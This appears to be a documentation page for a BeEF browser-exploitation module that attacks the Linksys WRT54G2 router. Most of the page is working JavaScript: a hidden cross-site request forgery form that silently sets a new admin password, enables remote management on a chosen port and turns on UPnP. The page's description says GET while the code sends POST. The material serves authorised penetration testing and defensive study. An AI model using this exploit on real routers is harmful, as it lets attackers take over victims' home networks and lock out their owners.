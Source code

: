 ## Summary

* **Objective**: enable remote administration and change the password on a Linksys WRT54G2 router
* **Authors**: Martin Barbella
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/linksys_wrt54g2_csrf)

## Internal Working

Uses an invisible iframe with a GET request to change config

```js
  var port    = '<%= @port %>';
  var gateway = '<%= @base %>';
  var passwd  = '<%= @password %>';
  var timeout = 15;

  var wrt54g2_iframe_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "Manage.tri", "POST", "application/x-www-form-urlencoded",
      [{'type':'hidden', 'name':'MANAGE_USE_HTTP', 'value':'0'} ,
       {'type':'hidden', 'name':'MANAGE_HTTP', 'value':'1'},
       {'type':'hidden', 'name':'MANAGE_HTTP_S', 'value':'0'},
       {'type':'hidden', 'name':'MANAGE_PASSWORDMOD', 'value':'1'},
       {'type':'hidden', 'name':'MANAGE_PASSWORD', 'value':passwd},
       {'type':'hidden', 'name':'MANAGE_PASSWORD_CONFIRM', 'value':passwd},
       {'type':'hidden', 'name':'_http_enable', 'value':'1'},
       {'type':'hidden', 'name':'MANAGE_WLFILTER', 'value':'1'},
       {'type':'hidden', 'name':'MANAGE_REMOTE', 'value':'1'},
       {'type':'hidden', 'name':'MANAGE_PORT', 'value':port},
       {'type':'hidden', 'name':'MANAGE_UPNP', 'value':'1'},
       {'type':'hidden', 'name':'layout', 'value':'en'}
      ]);

```

## Feedback

